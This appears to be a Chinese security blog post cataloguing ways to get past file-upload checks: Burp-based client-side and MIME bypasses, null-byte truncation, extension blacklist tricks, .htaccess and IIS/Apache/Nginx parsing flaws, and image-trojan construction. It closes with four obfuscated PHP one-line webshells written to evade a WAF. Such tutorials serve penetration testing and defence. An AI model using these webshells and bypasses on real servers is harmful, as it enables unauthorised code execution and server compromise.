 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](https://ljjbloghub.github.io/img/上传1.png)
##  服务器端检测绕过

### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.	get方法传送文件路径，利用%00截断   
![](https://ljjbloghub.github.io/img/上传2.png)  
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](https://ljjbloghub.github.io/img/上传3.png)  
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg)  

### 后缀名检测  
基于黑名单的绕过：  
1.php可以执行的后缀名.php2，3，4，5  
2.test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3.找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4.可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5.利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   

白名单绕过：  
1.截断攻击   
2.利用解析漏洞  
3.特别文件名构造  

### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](https://ljjbloghub.github.io/img/上传4.png)    
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg).     
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析    
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析  
     
IIS7.0/7.5 解析漏洞:    
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   

Apache解析漏洞（双扩展名解析绕过)      
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞） 
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:  
	![](https://ljjbloghub.github.io/img/上传5.png)  
2.文件相关信息检测绕过:    
根据类型在文件头部添加以下文本    
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](https://ljjbloghub.github.io/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  

          <?php $_GET[“test1"]($_GET[“test2"]); ?>  
          
2.  

        $str="a=assert";  
        parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"
        

3. 

        <?php 
          function fun() 
          {return $_POST['a'];} 
          @preg_replace("/test/e",fun(),"test test test"); 
        ?>   
    
4.

    <?php 
    $b='tressa'; 
    $c=strrev($b); 

    $c($_POST[key]); 
    ?> 

文件上传思维导图：
![](https://ljjbloghub.github.io/img/上传7.png)
